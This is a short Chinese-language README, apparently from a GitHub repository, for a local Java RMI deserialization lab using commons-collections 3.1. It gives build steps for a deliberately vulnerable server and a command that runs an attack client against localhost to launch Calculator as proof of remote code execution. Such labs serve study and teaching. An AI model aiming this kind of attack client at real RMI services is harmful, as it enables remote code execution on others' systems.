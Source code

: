 # 一个普通的RMI漏洞利用环境

## 环境搭建

### 依赖commons-collections-3.1.jar包
```bash
cd lib
wget https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar
```

### 服务端
```bash
cd RMIServer
# 编译
mvn clean compile assembly:single
# 执行
/Library/Java/JavaVirtualMachines/jdk1.8.0_112.jdk/Contents/Home/bin/java -jar ./target/BSidesRMIService-0.1-jar-with-dependencies.jar
```

### 客户端
```bash
cd RMIClient/com/cqq
# 编译
javac -cp ../../../lib/commons-collections-3.1.jar *.java
cd ../..
# 执行
java -cp ../lib/commons-collections-3.1.jar:. com.cqq.AttackClient 127.0.0.1  1099 "/System/Applications/Calculator.app/Contents/MacOS/Calculator"
```

## Demo

![](RMI-commons-collection-rce.gif)

## 参考
- [深入理解Java RMI反序列化漏洞]https://www.xmanblog.net/java-rmi-rce/
- [Slides/Demos from the BSides Munich 2019 talk "Attacking Java RMI in 2019"](https://github.com/mogwailabs/rmi-deserialization)
